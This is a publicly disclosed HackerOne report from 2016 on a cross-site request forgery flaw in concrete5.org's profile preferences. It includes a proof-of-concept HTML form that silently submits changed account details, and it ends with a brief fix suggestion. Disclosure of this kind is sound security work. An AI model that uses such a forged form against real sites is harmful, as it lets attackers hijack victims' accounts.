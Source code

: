 # CSRF Full Account Takeover

## Report Details
- **Report ID**: 152052
- **URL**: https://hackerone.com/reports/152052
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-07-18T13:08:36.259Z
- **Disclosed**: 2016-08-12T22:02:46.488Z

## Reporter
- **Username**: khalidamin
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: concretecms

## Vulnerability Information
Try this code in your browser:

<html>
  <body>
    <form action="https://www.concrete5.org/profile/preferences/-/save/" method="POST">
      <input type="hidden" name="uName" value="██████" />
      <input type="hidden" name="uEmail" value="████" />
      <input type="hidden" name="uAccountType" value="owner" />
      <input type="hidden" name="profile&#95;private&#95;messages&#95;notification&#95;enabled" value="1" />
      <input type="hidden" name="uPasswordOld" value="" />
      <input type="hidden" name="uPasswordNew" value="" />
      <input type="hidden" name="uPasswordNewConfirm" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

You need to ask for confirming password for changing settings, or use a token everytime it is changed.

If any further information is needed, plase ask.

Thanks.


## Attachments
No attachments
